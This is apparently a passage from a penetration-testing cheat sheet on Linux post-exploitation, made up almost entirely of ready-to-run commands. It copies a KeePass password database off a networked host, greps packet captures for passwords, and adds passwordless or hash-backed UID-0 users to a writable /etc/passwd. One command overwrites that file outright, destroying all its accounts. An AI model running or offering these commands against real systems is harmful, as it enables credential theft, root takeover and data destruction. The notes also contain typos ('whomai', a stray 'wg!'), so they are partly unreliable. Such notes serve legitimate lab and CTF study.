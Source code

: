 
scp -i /mnt/user_sshkey user@192.168.2.105:/folder_name/passwordsDB.kdbx .
scp -i sshKey groundfloor@192.168.2.105:/keepass/passwordsDB.kdbx .
```


-------------------------------------------------------------------------------------------------------------------------------------
### Web Applications
- Remember to check service version and use https://www.exploit-db.com/ to find vulnerabilities
-  Version is usually found using the -sV flag on nmap or IF it has a webpage hosting a CMS, check the webpage for the version running.

### Backup File
```Navigate to user directory and use ls -lah in backup files to find readable items
# Look for;
- processes run as root
- hashed passwords
- any processes that give you root access after running
```

### tcpdump credentials
```
tcpdump -nt -r capture.pcap -A 2>/dev/null | grep -P 'pwd='
```
### Writable password files
```
If you have write permission to the following files:

/etc/passwd
/etc/shadow
/etc/sudoers

-----------/etc/passwd-------------------------
echo 'root2::0:0::/root:/bin/bash' >> /etc/passwd
su - root2
id && whoami
   
// Add new user to the system with GID and UID of 0   
   
OR
   
vi /etc/passwd
Remote X (Password Holder) for root
wg!
su root
id && whoami
  
// Remove root's password  
  
OR

echo root::0:0:root:/root:/bin/bash > /etc/passwd
id && whomai
  
OR

openssl passwd -1 -salt ignite NewRootPassword
Copy output
echo "root2:<output>:0:0:root:/root:/bin/bash" >> /etc/passwd
Replace <output> with the copied output
su root2
id && whoami

```